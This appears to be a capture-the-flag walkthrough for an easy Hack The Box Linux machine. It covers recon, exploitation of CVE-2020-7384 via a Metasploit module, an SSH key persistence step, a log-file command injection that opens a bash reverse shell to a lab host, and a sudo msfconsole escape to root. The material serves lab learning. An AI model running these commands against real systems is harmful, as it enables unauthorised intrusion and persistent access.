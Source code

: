 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)](Easy)

---

## 🔍 Recon
```bash
nmap -sV -sC -oA scans/nmap-alltcp 10.10.10.226
```
- **Open Ports:**
  - 22 (SSH)
  - 5000 ([HTTP](HTTP.md) - Werkzeug server)

```bash
gobuster dir -u http://10.10.10.226:5000/ -w /usr/share/dirb/wordlists/small.txt
```

---

## 🕵️ Exploitation - CVE-2020-7384 (APK Template Injection)
### Description:
- Exploits `msfvenom` APK template injection vulnerability
- Vulnerable webapp allows APK creation with arbitrary commands

### Metasploit Module
```bash
use exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection
```
- Set payload:
```bash
set PAYLOAD android/meterpreter/reverse_tcp
set LHOST 10.10.14.6
set LPORT 9001
set SRVHOST 10.10.14.6
```
- Run:
```bash
exploit
```
- Upload APK via web UI ➝ get shell back

---

## ⚙️ Initial Foothold Shell
### Reverse Shell Upgrade
```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
CTRL+Z
stty raw -echo; fg
reset
export TERM=xterm-256color
```

### [SSH](SSH) Persistence (Optional)
```bash
mkdir ~/.ssh
echo "<your public key>" > ~/.ssh/authorized_keys
chmod 700 ~/.ssh
chmod 600 ~/.ssh/authorized_keys
```

---

## 👀 Enumeration - User Privilege Escalation
### Hacker Submission Injection
```bash
echo "x x x 127.0.0.1; bash -c 'bash -i >& /dev/tcp/10.10.14.6/9002 0>&1' # ." > logs/hackers
```
- Triggers a reverse shell as the next user

---

## 🔒 Root Privilege Escalation
### Sudo Permissions Check
```bash
sudo -l
```
- Allowed: `/opt/metasploit-framework-6.0.9/msfconsole` without password

### Exploit
```bash
sudo /opt/metasploit-framework-6.0.9/msfconsole
```
- Within msfconsole:
```bash
!bash
```
- Gain root shell

---

## 🔑 Flags
```bash
cat /home/kiddie/user.txt
cat /root/root.txt
```

---

## 📂 Resources
- [Exploit-DB CVE-2020-7384](https://www.exploit-db.com/exploits/49445)
- [Rapid7 Module: metasploit_msfvenom_apk_template_cmd_injection](https://www.rapid7.com/db/modules/exploit/unix/fileformat/metasploit_msfvenom_apk_template_cmd_injection/)
